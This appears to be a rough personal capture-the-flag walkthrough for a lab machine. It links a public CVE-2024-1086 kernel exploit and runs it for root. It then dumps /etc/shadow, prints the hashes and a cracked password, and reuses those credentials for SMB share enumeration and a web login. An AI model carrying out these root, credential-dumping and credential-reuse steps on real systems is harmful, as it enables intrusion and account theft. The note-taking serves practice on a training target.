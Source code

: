 ```bash
this is kernal
5.19.0-35-generic , search in google for any cve !!!

```

```

https://github.com/Notselwyn/CVE-2024-1086/releases/tag/v1.0.0

```

transfer it 
-chmod +x exploit
-./exploit
![[Pasted image 20250204171757.png]]

-cat /etc/shadow
```
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::


root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::

```

-william crack ?
```bash
$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:qwe123!@#
qwe123!@#


┌──(pwn㉿kali)-[~]
└─$ netexec smb 10.10.11.241 -u drwilliams -p 'qwe123!@#'
┌──(pwn㉿kali)-[~]
└─$ netexec smb 10.10.11.241 -u drwilliams -p 'qwe123!@#' --shares          -----------     ------
SMB         10.10.11.241    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.241    445    DC               C$                              Default share
SMB         10.10.11.241    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.241    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.241    445    DC               SYSVOL          READ            Logon server share 

```

```bash
https://10.10.11.241/
try admin 123456
Login failed.

try drwilliams  qwe123!@#
- boom!

```
